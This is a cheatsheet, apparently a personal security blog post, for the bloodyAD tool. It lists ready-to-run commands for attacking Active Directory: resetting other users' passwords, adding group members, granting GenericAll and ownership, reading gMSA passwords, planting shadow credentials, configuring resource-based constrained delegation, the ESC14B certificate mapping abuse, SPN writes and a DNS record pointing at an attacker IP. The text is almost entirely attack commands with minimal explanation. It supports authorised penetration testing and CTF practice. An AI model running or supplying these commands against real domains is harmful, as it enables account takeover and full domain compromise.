 ```yaml
---
title: BloodyAD Cheatsheet
author: Kasem Shibli
date: 2025-10-27 11:45:00 +/-TTTT
categories: [CheetSheets]
tags: [BloodyAD]
---
```

# BloodyAD Cheatsheet

# Installation
## Using uv
```bash
uv tool install bloodyAD
```
## Using pipx
```bash
pipx install bloodyAD
```
# Usage
## Retrieve User Information
```bash
bloodyAD --host $dc -d $domain -u $username -p $password get object $target_username
```
## Add User To Group
```bash
bloodyAD --host $dc -d $domain -u $username -p $password add groupMember $group_name $member_to_add
```
## Change Password
```bash
bloodyAD --host $dc -d $domain -u $username -p $password set password $target_username $new_password
```
## Give User GenericAll Rights
```bash
bloodyAD --host $dc -d $domain -u $username -p $password add genericAll $DN $target_username
```
## WriteOwner
```bash
bloodyAD --host $dc -d $domain -u $username -p $password set owner $target_group $target_username
```
## ReadGMSAPassword
```bash
bloodyAD --host $dc -d $domain -u $username -p $password get object $target_username --attr msDS-ManagedPassword
```
## Enable a Disabled Account
```bash
bloodyAD --host $dc -d $domain -u $username -p $password remove uac $target_username -f ACCOUNTDISABLE
```
## Add The TRUSTED_TO_AUTH_FOR_DELEGATION Flag
```bash
bloodyAD --host $dc -d $domain -u $username -p $password add uac $target_username -f TRUSTED_TO_AUTH_FOR_DELEGATION
```
## Modify UPN
```bash
bloodyAD --host $dc -d $domain -u $username -p $password set object $old_upn userPrincipalName -v $new_upn
```
Check if it has been modified
```bash
bloodyAD --host $dc -d $domain -u $username -p $password get object $target_user --attr userPrincipalName
```
## MachineAccountQuota

Enumerate MachineAccountQuota
```bash
bloodyAD --host $dc -d $domain -u $username -p $password get object 'DC=dc,DC=dc' --attr ms-DS-MachineAccountQuota
```
Set MachineAccountQuota value to 10
```bash
bloodyAD --host $dc -d $domain -u $username -p $password set object 'DC=dc,DC=dc' ms-DS-MachineAccountQuota -v 10
```
## Modify mail
```bash
bloodyAD --host $dc -d $domain -u $username -p $password set object $target_user mail -v newmail@test.local
```
## Modify the altSecurityIdentities attribute (ESC14B)
```bash
bloodyAD --host $dc -d $domain -u $username -p $password set object $target_user altSecurityIdentities -v 'X509:<RFC822>user@test.local'
```
## Find Writable Attributes
```bash
bloodyAD --host $dc -d $domain -u $username -p $password get writable --detail
```
## Shadow Credentials
```bash
bloodyAD --host $dc -d $domain -u $username -p $password add shadowCredentials $target
``` 
## WriteSPN
```bash
bloodyAD --host $dc -d $domain -u $username -p $password set object $target servicePrincipalName -v 'domain/meow'
```
## Find Deleted Objects
```bash
bloodyAD --host $dc -d $domain -u $username -p $password get writable --include-del
```
## Extended Search Operations
```bash
bloodyAD --host $dc -d $domain -u $username -p $password get search -h

example:

bloodyAD --host $dc -d $domain -u $username -p $password -k get search -c 1.2.840.113556.1.4.2064 -c 1.2.840.113556.1.4.2065
```
## Restore a deleted object
```bash
bloodyAD --host $dc -d $domain -u $username -p $password -k set restore $user_to_restore
```
## Create a new computer account
```bash
bloodyAD --host $dc -d $domain -u $username -p $password add computer $computer_name $computer_password
```
## Add Resource Based Constrained Delegation
```bash
bloodyAD --host $dc -d $domain -u $username -p $password add rbcd 'DELEGATE_TO$' 'DELEGATE_FROM$'
```
## Register a DNS Record
```bash
bloodyAD --host $dc -d $domain -u $username -p $password add dnsRecord $record_name $attacker_ip
```

## Notes
- Pass `-k` to use kerberos authentication
- You can pass a user hash instead of a password using `-p` :hash
- Specify format for ‘–password’ or ‘-k ‘ using `-f`, e.g. `-f rc4`

## Resources

- https://github.com/CravateRouge/bloodyAD/wiki/User-Guide
- https://0xdf.gitlab.io/2024/03/30/htb-rebound.html
- https://0xdf.gitlab.io/2025/04/26/htb-vintage.html
- https://www.thehacker.recipes/

